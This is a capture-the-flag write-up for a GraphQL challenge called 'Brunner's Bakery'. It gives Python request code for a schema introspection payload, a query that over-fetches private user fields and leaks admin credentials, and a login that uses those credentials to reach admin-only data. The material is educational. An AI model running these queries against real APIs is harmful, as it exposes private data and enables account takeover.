

# Brunner's Bakery

```text
Recent Graphs show that we need some more Quality of Life recipes! Can you go check if the bakery is hiding any?!
```



So, this could be a GraphQL Injection problem

Using the following payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection):

```python
payload = {
  "query": """
    query {
      __schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
    }
    """
}
```

In the [response](../images/schema_response.json), we notice `secretRecipes`. Trying the payload similar to the `publicRecipes` one:

```python
payload = {
  "query": """
    query {
      secretRecipes {
        name
        description
        author {
          displayName
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

But we get 'Access denied. admin only' error :(

There is a `login` function (mutation) as seen in the schema output; it requires username and password

Let's try the interesting fields of the Recipe, User, Ingredient types (found from the schema output)

```python
payload = {
  "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
        }
      }
    }
    """
}
```

The output contains `'notes': 'TODO: Remove temporary credentials... brunner_admin:Sw33tT00Th321?'`

We have the username and password now

```python
import requests

url = "https://brunner-s-bakery.challs.brunnerne.xyz/graphql"

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

payload = {
    "query": """
    mutation {
      login(username: "brunner_admin", password: "Sw33tT00Th321?") {
        token
        user {
          id
          username
        }
      }
    }
    """
}

headers = {
    "Content-Type": "application/json",
}

response = requests.post(url, json=payload, headers=headers)
token = response.json()["data"]["login"]["token"]
headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}

payload = {
    "query": """
    query {
      secretRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}

response = requests.post(url, json=payload, headers=headers)

try:
    print(response.json())
except Exception:
    print(response.text)
```

**Note**: `secretRecipes` turned out to be a red herring. The payload of `publicRecipes`, with ingredient fields expanded, also exposes the flag:

```python
payload = {
    "query": """
    query {
      publicRecipes {
        name
        description
        author {
          id
          username
          displayName
          email
          notes
          privateNotes
        }
        ingredients {
          name
          supplier {
            name
            owner {
              id
              username
              displayName
              email
              notes
              privateNotes
            }
          }
        }
      }
    }
    """
}
```
